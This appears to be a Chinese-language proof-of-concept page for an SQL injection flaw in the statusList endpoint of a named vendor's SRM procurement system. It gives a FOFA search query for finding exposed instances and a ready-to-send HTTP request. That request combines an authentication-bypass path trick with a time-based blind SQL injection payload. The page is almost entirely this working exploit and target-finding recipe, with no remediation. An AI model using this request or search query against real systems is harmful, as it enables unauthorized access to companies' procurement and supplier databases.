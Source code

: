 # SRM智联云采系统statusList存在SQL注入漏洞
智互联(深圳)科技有限公司SRM智联云采系统针对企业供应链管理难题，及智能化转型升级需求，智联云采依托人工智能、物联网、大数据、云等技术，通过软硬件系统化方案，帮助企业实现供应商关系管理和采购线上化、移动化、智能化，提升采购和协同效率，进而规避供需风险，强化供应链整合能力，构建企业利益共同体。智互联(深圳)科技有限公司SRM智联云采系统statusList存在SQL注入漏洞。

## fofa
```javascript
title=="SRM 2.0"
```

## poc
```java
POST /adpweb/static/..;/a/sys/sysMessage/statusList?companyName=1&officeName=1&orderBy=1&receiverName=1&sourceMessageId=1&delStatus=1%20AND%20(SELECT%207104%20FROM%20(SELECT(SLEEP(3)))xZoa) HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
```

![image-20241122151355129](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411221513193.png)

